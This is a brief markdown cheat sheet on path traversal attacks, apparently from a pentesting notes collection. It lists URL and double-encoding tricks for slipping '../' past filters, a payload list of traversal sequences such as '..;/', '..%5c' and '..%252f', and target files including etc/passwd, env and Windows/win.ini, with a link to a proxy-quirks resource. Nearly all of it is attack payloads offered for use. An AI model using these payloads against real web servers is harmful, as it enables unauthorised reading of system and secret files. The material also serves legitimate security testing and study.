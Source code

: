 # Path transversal

| Char | Encoded |
| --- | --- |
| space | %20 |
| / | %2f |
| \ | %5c |
| % | %25 |
| . | %2e |
| f | %66 |
| e | %65 |

## Tricks

```
%252%66 -> %2f -> /
%252%65 -> %2e -> .
%252f -> %2f -> /
%252e -> %2e -> .
```

## Payloads

```
..;/
..%5c
..%2f
../
..\
..;\
..%252f
%2e%2e%252f
%252%66.%252%65
/
//
///
////
/////
//////
///////
////////
/////////
//////////
```

## Files

env

etc/passwd

Windows/win.ini


## Resources

| URL |
| --- |
| https://github.com/GrrrDog/weird_proxies |
